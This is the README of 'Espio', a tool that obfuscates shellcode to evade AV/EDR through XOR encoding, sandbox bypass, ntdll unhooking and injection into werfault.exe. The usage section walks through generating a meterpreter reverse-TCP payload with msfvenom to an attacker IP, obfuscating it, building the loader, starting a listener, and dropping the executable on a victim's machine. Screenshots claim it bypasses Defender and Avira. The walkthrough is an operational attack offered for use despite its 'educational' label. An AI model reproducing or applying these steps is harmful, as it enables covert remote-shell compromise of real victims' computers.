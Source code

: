 # Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone https://github.com/Konis-Bros/Espio.git
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project. Note that the executable file will be located at loader/x64/Debug/Espio.exe.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Recommendations
- In step 2 and 6, create meterpreter session over HTTPS. For more information see [Meterpreter HTTP/HTTPS Communication](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/).
- In step 5, change the build configuration from Debug to Release. Note that the executable file will now be located at loader/x64/Release/Espio.exe.

## Tests
Espio was examined against:

### Windows Defender:

<img src="images/defender_bypass.png" alt="Defeder Bypass">

### Avira Prime:

<img src="images/avira_bypass.png" alt="Avira Bypass">

### ANTISCAN:

<img src="images/antiscan.png" alt="ANTISCAN">

## Authors and Acknowledgments
- [@dkonis](https://github.com/dkonis) - Research & Development
- [@RonKon](https://github.com/RonKonis) - Development
- [@SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
